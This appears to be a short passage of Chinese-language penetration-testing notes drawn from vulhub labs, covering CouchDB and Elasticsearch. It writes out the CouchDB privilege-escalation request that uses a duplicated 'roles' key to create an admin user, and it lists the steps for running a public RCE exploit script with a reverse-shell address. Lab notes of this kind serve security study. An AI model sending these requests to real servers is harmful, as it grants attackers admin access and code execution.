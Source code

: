 1、先创建用户

```
Post:/_users/org.couchdb.user:vulhub

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

2、登录用户授权

```
Get:/_utils/

vulhub vulhub
```

### -CouchDB-权限绕过RCE-CVE-2017-12636

1、下载exp.py

2、修改目标和反弹地址

3、Python3调用执行即可

https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py

## ElasticSearch

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

默认端口：9200 9300

**-Elasticsearch RCE CVE-2014-3120**

<img src="图片\Snipaste_2023-02-09_10-56-09.png" alt="Snipaste_2023-02-09_10-56-09" style="zoom:80%;" />
